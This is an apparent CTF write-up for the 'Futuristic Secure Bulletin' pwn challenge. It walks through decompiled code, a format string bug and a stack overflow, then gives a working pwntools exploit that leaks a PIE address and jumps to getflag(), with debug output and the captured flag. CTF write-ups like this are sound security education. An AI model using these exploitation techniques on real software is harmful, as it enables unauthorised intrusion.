

# Futuristic Secure Bulletin [250|17 Solves]

_You managed to break into one of the  imposter's communication system, named the Futuristic Secure Bulletin  Service. This service lets the imposters send messages to one another  secretly. Are you able to find out about their secrets?_

**Files**: [`FSBS`](https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/FSBS/FSBS)

```sh
$ checksec FSBS
```



The only thing missing here is a stack canary; so there's probably an overflow somewhere. Additionally, the title of the challenge abbreviates to `FSB`, which _probably_ refers to a [format string bug](https://docs.pwntools.com/en/stable/fmtstr.html).

### Finding bugs<sup>1</sup>

The binary starts at `main()`, using a number of `rand()` values with `srand(time())`:

```c
int main() {
  time_t timer; // [rsp+8h] [rbp-18h] BYREF
  unsigned t = time(&timer);
  srand(t);
  puts("Getting User Credentials...");
  int uid = rand() % 100;
  usleep(rand() % 1000000);
  puts("Retrieving Device ID...");
  int device_id = rand() % 1000;
  usleep(rand() % 1000000);
  puts("Generating Session...");
  int session_id = rand();
  usleep(rand() % 1000000);
  puts("Connecting...");
  usleep(rand() % 1000000);
  actual_main(uid, device_id, session_id, 0);
}
```

According to the challenge creators, these `usleep()`s are here to slow down remote connections && impede DoS attempts. The values of `rand()` used here are completely predictable, but they're still useless for the purposes of exploitation, so you can forget about almost everything in `main()`.

The last function executed above is something I've labelled`actual_main()`, because it's where the challenge _actually_ starts:

```c
int intromsg() {
  puts("******************************************************************************");
  puts("***********   Welcome to the Futuristic Secure Bulletin System!   ************");
  return puts("******************************************************************************");
}
void getflag() {
	// omitted code that will print data from flag.txt
}
int actual_main(unsigned int uid, unsigned int device_id, unsigned int session_id, int magic) {
  intromsg();
  if ( magic == 1337 )
    getflag();
  printf("User ID: %d \t Device ID: %d \t Session ID: %d\n", uid, device_id, session_id);
  printf("Please enter the recipient's name:");
  fflush(stdout); // these are here because the challenge creator didn't use setvbuf()/stdbuf.
  send_name();
  printf("Enter Message:");
  fflush(stdout);
  send_msg();
  puts("Message Sent!");
  return puts("Thank You for using the Futuristic Secure Bulletin System! Goodbye.");
}
```

There's a flag printing function here, gated behind an if-statement. The challenge creator probably wanted exploiters to call `actual_main(?, ?, ?, 1337)`, but since there're no other xrefs to `actual_main`, it's a lot more sensible to plan an exploit around jumping directly to `getflag()`.

We're getting sidetracked, though. `actual_main()` has two other functions worth looking at: `send_name()` and `send_msg()`. These are the functions that take in user input from stdin.

`send_name()` has no buffer overflow, but it does have a number of other bugs:

```c
void remove_shell_characters(const char *s) {
  for (int i = 0; ; ++i) {
    if ( i >= strlen(s) )
      break;
    if ( s[i] == ';' || s[i] == '\'' || s[i] == '"' || s[i] == '&' || s[i] == '/' || s[i] == '\\' || s[i] == '*' )
      s[i] = ' ';
  }
}
int send_name() {
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF
  fflush(stdin);
  read(0, buf, 10); // only 10 characters
  remove_shell_characters(buf); // strange function that assumes buf[] is nul-terminated
  puts("Sending message to:");
  printf(buf); // FORMAT STRING EXPLOIT
  return putchar('\n');
}
```

There's a rather obvious format string exploit here, limited to 10 characters. There's also technically an opportunity for an oob-read by `strlen()`, but that's not important. The format string is the key here, as we can use it to leak a PIE address to find `getflag()`.

The next function, `send_msg()`, has a basic buffer overflow that we can use to control the instruction pointer:

```c
size_t send_msg() {
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF
  fflush(stdin);
  read(0, buf, 300uLL);
  return remove_shell_characters(buf);
}
```

In essence, we have 3 things to note:

1. there is a `getflag()` function
2. there is a 10byte format string exploit (use to leak PIE base)
3. there is a ~40 byte buffer overflow (use to call print_flag)

The resulting exploit chain is real simple:

1. use the FSB to leak a PIE address -- this'll be the first return address on `send_name()`'s stack, i.e. `actual_main+0x77`
2. use the overflow to call `getflag()`

[pwnscripts](https://github.com/152334H/pwnscripts) _should've_ made part 1 a breeze, but my printf offset bruteforcer was designed with a minimum length of ~12+ bytes. After making a minor patch (`find_offset.py:123`),

```python
...
# payload = 'A'*8 + '%{}$p\n'.format(i)
payload = '%{}$p\n'.format(i)
...
```

This will work (with an ~7/256 chance of failure: ASLR might mess up `remove_shell_characters()`)

```python
from pwnscripts import *
context.binary = 'FSBS'
def start(s: bytes):
    r = remote('ctf-7jca.balancedcompo.site', 9994)
    r.sendafter('name:', s)
    r.recvline()
    return r, r.recvline()
@context.quiet
def printf(s: bytes):
    r, recv = start(s)
    r.close()
    return recv

context.binary.symbols['send_name_ret'] = 0xc34 + 0x77 # actual_main+0x77
context.binary.symbols['getflag'] = 0xa1a
context.log_level = 'debug'
PIE_off = fsb.find_offset.PIE(printf, offset=context.binary.symbols['send_name_ret'])

r, leak = start('%{}$p\n'.format(PIE_off))
context.binary.symbols['send_name_ret'] = unpack_hex(leak)

r.sendlineafter('Message:', b'A'*0x108 + pack(context.binary.symbols['getflag']))
r.interactive()
```

Resultant output:

```python
[*] 'FSBS'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] pwnscripts: extracted 0x7f2242a2b500
[DEBUG] pwnscripts: extracted 0x36257ffd0b80c540
[DEBUG] pwnscripts: extracted 0xa7024
[DEBUG] pwnscripts: extracted 0x7ffe1914b630
[DEBUG] pwnscripts: extracted 0x555a41d78cab
[*] pwnscripts.fsb.find_offset for 'PIE': 9
[+] Opening connection to ctf-7jca.balancedcompo.site on port 9994: Done
[DEBUG] Received 0x33 bytes:
    b'Selected user namespace base 10000 and range 1000.\n'
[DEBUG] Received 0x19d bytes:
    b'Getting User Credentials...\n'
    b'Retrieving Device ID...\n'
    b'Generating Session...\n'
    b'Connecting...\n'
    b'******************************************************************************\n'
    b'***********   Welcome to the Futuristic Secure Bulletin System!   ************\n'
    b'******************************************************************************\n'
    b'User ID: 65 \t Device ID: 220 \t Session ID: 1571550239\n'
    b"Please enter the recipient's name:"
[DEBUG] Sent 0x5 bytes:
    b'%9$p\n'
[DEBUG] Received 0x32 bytes:
    b'Sending message to:\n'
    b'0x557b4fcdecab\n'
    b'\n'
    b'Enter Message:'
[DEBUG] Sent 0x111 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000100  41 41 41 41  41 41 41 41  1a ea cd 4f  7b 55 00 00  │AAAA│AAAA│···O│{U··│
    00000110  0a                                                  │·│
    00000111
[*] Switching to interactive mode
[DEBUG] Received 0x6e bytes:
    00000000  44 53 4f 2d  4e 55 53 7b  35 36 61 62  65 32 65 36  │DSO-│NUS{│56ab│e2e6│
    00000010  32 36 38 39  30 62 63 64  63 66 35 61  61 62 39 62  │2689│0bcd│cf5a│ab9b│
    00000020  35 30 33 35  38 66 64 34  30 39 36 63  65 64 65 34  │5035│8fd4│096c│ede4│
    00000030  33 66 34 35  33 66 31 38  63 33 30 66  65 33 64 63  │3f45│3f18│c30f│e3dc│
    00000040  37 35 62 30  35 66 66 36  7d 0a 41 41  41 41 41 41  │75b0│5ff6│}·AA│AAAA│
    00000050  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000060  41 41 41 41  41 41 41 41  41 41 41 41  03 0a        │AAAA│AAAA│AAAA│··│
    0000006e
DSO-NUS{56abe2e626890bcdcf5aab9b50358fd4096cede43f453f18c30fe3dc75b05ff6}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03[*] Got EOF while reading in interactive
$
```

## Footnotes

1. All C code blocks here were obtained from IDA Pro + manual prettifying